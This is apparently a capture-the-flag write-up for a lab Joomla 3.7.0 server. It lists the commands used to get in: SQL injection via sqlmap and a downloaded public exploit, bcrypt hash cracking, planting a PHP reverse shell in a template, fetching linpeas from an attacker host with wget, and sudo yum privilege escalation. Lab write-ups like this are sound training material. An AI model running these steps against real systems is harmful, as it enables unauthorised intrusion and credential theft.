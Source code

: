 # Daily Bugle

> Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.

<br>

### Process:

1. Deploy:
	- access the web server:
		- scan IP: `sudo nmap -T4 10.10.225.223`
		- found SSH, HTTP, MySQL
		- go to website: `http://10.10.225.223`
		- who robbed the bank = **spiderman**
2. Obtain user and root:
	- run gobuster against web app: 
		- `gobuster dir -u http://10.10.225.223 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
		- found "/adminstrator" page that is a Joomla login
	- find the version of Joomla running: 
		- goto: `http://10.10.225.223/administrator/manifests/files/joomla.xml`
		- Joomla version running = **3.7.0**
	- search for vulnerability in this Joomla version:
		- `searcshploit joomla 3.7.0`
		- found SQLi vulnerabilit: `searchsploit -x php/webapps/42033.txt`
	- run the SQLMap injection found:
		- `sqlmap -u "http://10.10.225.223/administrator/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --dbs`
		- failed to execute 
	- try the python alternative tool that exploits this vulnerability:
		- download: `wget https://raw.githubusercontent.com/XiphosResearch/exploits/master/Joomblah/joomblah.py`
		- run: `python joombla.py http://10.10.225.223`
		- has found for jonah user = *\$2y\$10\$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm*
	- crack hash found with john:
		- `echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' > hash.txt`
		- `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt`
		- jonah's cracked password = **
	- login to Joomla portal using jonah account with cracked password 
	- create a reverse PHP shell using a Joomla template:
		- under Configuration select Templates -> Templates tab -> click on template and change out index.php for a PHP reverse shell -> save -> go back to Styles tab and set the altered template to the default for all pages
	- go to main web page to execute reverse PHP shell
	- esclate privileges to user:
		- upload linpeas to machine: `cd /var/www/html && wget http://10.11.31.198:8080/linpeas.sh`
		- found password in "configuration.php" file in "/var/www/html" directory = *nv5uz9r3ZEDzVjNu*
		- try to use password to access "jjameson" account -- worked 
		- user flag = **27a260fe3cba712cfdedb1c86d80442e**
	- escalate privileges to root:
		- check sudo privileges: `sudo -l` -- found "yum" binary
		- found Sudo privilege esclation exploit on [GTFO Bins](https://gtfobins.github.io/gtfobins/yum/#sudo)
		- root flag = **eec3d53292b1821868266858d7fa6f79**
			
